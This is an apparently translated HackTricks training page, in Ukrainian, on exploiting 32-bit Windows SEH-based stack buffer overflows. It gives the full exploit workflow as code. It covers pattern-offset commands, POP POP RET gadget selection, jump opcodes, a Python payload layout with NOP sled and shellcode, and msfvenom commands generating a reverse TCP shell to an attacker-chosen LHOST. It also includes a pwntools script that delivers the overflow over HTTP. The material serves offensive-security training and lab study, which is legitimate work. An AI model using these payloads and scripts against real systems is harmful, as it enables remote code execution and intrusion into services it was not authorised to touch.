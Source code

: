 # Windows SEH-based Stack Overflow Exploitation (nSEH/SEH)

{{#include ../../banners/hacktricks-training.md}}

SEH-based exploitation — класична x86 Windows техніка, яка зловживає Structured Exception Handler chain, що зберігається в стеку. Коли stack buffer overflow перезаписує два 4-байтові поля

- nSEH: вказівник на наступний запис SEH, та
- SEH: вказівник на функцію обробника винятків

зловмисник може отримати контроль над виконанням шляхом:

1) Встановлення SEH на адресу POP POP RET gadget в непідзахищеному модулі, так щоб при обробці винятку gadget повернув керування в байти, контрольовані зловмисником, та
2) Використання nSEH для перенаправлення виконання (зазвичай коротким стрибком) назад у великий переповнений буфер, де знаходиться shellcode.

Ця техніка специфічна для 32-bit процесів (x86). На сучасних системах віддавайте перевагу модулю без SafeSEH і ASLR для пошуку gadget'а. Недопустимі символи часто включають 0x00, 0x0a, 0x0d (NUL/CR/LF) через C-strings і парсинг HTTP.

---

## Знаходження точних зсувів (nSEH / SEH)

- Спровокуйте краш процесу і перевірте, що SEH chain перезаписано (наприклад, в x32dbg/x64dbg перевірте SEH view).
- Відправте cyclic pattern як переповнюючі дані і обчисліть зсуви двох dword'ів, що потрапляють у nSEH і SEH.

Приклад з peda/GEF/pwntools на 1000-byte POST body:
```bash
# generate pattern (any tool is fine)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
# or
python3 -c "from pwn import *; print(cyclic(1000).decode())"

# after crash, note the two 32-bit values from SEH view and compute offsets
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x32424163   # nSEH
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x41484241   # SEH
# ➜ offsets example: nSEH=660, SEH=664
```
Підтвердіть, розмістивши маркери в цих позиціях (наприклад, nSEH=b"BB", SEH=b"CC"). Тримайте загальну довжину сталою, щоб зробити крах відтворюваним.

---

## Вибір POP POP RET (SEH gadget)

Вам потрібна послідовність POP POP RET, щоб розгорнути SEH-фрейм і повернутися до байтів nSEH. Знайдіть її в модулі без SafeSEH і, бажано, без ASLR:

- Mona (Immunity/WinDbg): `!mona modules`, потім `!mona seh -m modulename`.
- x64dbg plugin ERC.Xdbg: `ERC --SEH`, щоб перелічити POP POP RET gadgets і статус SafeSEH.

Виберіть адресу, яка при записі в little-endian не містить badchars (наприклад, `p32(0x004094D8)`). Віддавайте перевагу gadgets всередині вразливого бінарника, якщо захист дозволяє.

---

## Техніка повернення назад (short + near jmp)

nSEH займає лише 4 байти, що вміщує щонайбільше 2-байтовий short jump (`EB xx`) плюс паддінг. Якщо потрібно відскочити на сотні байтів назад, щоб дістатися початку вашого буфера, використайте 5-байтовий near jump, розміщений безпосередньо перед nSEH, і зчепіть його з коротким переходом зі nSEH.

With nasmshell:
```text
nasm> jmp -660           ; too far for short; near jmp is 5 bytes
E967FDFFFF
nasm> jmp short -8       ; 2-byte short jmp fits in nSEH (with 2 bytes padding)
EBF6
nasm> jmp -652           ; 8 bytes closer (to account for short-jmp hop)
E96FFDFFFF
```
Ідея розміщення для 1000-байтового payload з nSEH на зсуві 660:
```python
buffer_length = 1000
payload  = b"\x90"*50 + shellcode                    # NOP sled + shellcode at buffer start
payload += b"A" * (660 - 8 - len(payload))           # pad so we are 8 bytes before nSEH
payload += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"     # near jmp -652 (5B) + 3B padding
payload += b"\xEB\xF6" + b"BB"                      # nSEH: short jmp -8 + 2B pad
payload += p32(0x004094D8)                           # SEH: POP POP RET (no badchars)
payload += b"D" * (buffer_length - len(payload))
```
Потік виконання:
- Виникає виняток, диспетчер використовує перезаписаний SEH.
- POP POP RET призводить до виконання нашого nSEH.
- nSEH виконує `jmp short -8` у 5-байтовий near jump.
- Near jump приземляється на початку нашого буфера, де розташований NOP sled + shellcode.

---

## Небажані символи

Створіть повний badchar string і порівняйте вміст стеку після краху, вилучаючи байти, які спотворює парсер цілі. Для переповнень на основі HTTP, `\x00\x0a\x0d` майже завжди виключені.
```python
badchars = bytes([x for x in range(1,256)])
payload  = b"A"*660 + b"BBBB" + b"CCCC" + badchars  # position appropriately for your case
```
---

## Генерація Shellcode (x86)

Використовуйте msfvenom з вашими badchars. Невеликий NOP sled допомагає компенсувати зміщення при попаданні.
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f python -v sc
```
Якщо генеруєте на льоту, hex-формат зручний для вбудовування і unhex у Python:
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f hex
```
---

## Доставка через HTTP (precise CRLF + Content-Length)

Коли вразливим вектором є HTTP request body, сформуйте raw request із точними CRLFs і Content-Length, щоб server прочитав увесь переповнений body.
```python
# pip install pwntools
from pwn import remote
host, port = "<TARGET_IP>", 8080
body = b"A" * 1000  # replace with the SEH-aware buffer above
req = f"""POST / HTTP/1.1
Host: {host}:{port}
User-Agent: curl/8.5.0
Accept: */*
Content-Length: {len(body)}
Connection: close

""".replace('\n','\r\n').encode() + body
p = remote(host, port)
p.send(req)
print(p.recvall(timeout=0.5))
p.close()
```
---

## Інструменти

- x32dbg/x64dbg для спостереження за ланцюжком SEH та аналізу крашу.
- ERC.Xdbg (x64dbg плагін) для перерахування SEH gadgets: `ERC --SEH`.
- Mona як альтернатива: `!mona modules`, `!mona seh`.
- nasmshell для збірки коротких/near jumps та копіювання raw opcodes.
- pwntools для створення точних мережевих payloads.

---

## Примітки та застереження

- Застосовується лише до процесів x86. x64 використовує інший SEH scheme, і експлуатація, заснована на SEH, зазвичай не є життєздатною.
- Віддавайте перевагу gadget'ам у модулях без SafeSEH та ASLR; інакше знайдіть незахищений модуль, завантажений у процес.
- Сервісні watchdog'и, які автоматично перезапускають сервіс при краші, можуть полегшити ітеративну розробку експлойту.

## Посилання
- [HTB: Rainbow – SEH overflow to RCE over HTTP (0xdf)](https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html)
- [ERC.Xdbg – Exploit Research Plugin for x64dbg (SEH search)](https://github.com/Andy53/ERC.Xdbg)
- [Corelan – Exploit writing tutorial part 7 (SEH)](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-7-unicode-0day-buffer-overflow-seh-and-venetian-shellcode/)
- [Mona.py – WinDbg/Immunity helper](https://github.com/corelan/mona)

{{#include ../../banners/hacktricks-training.md}}
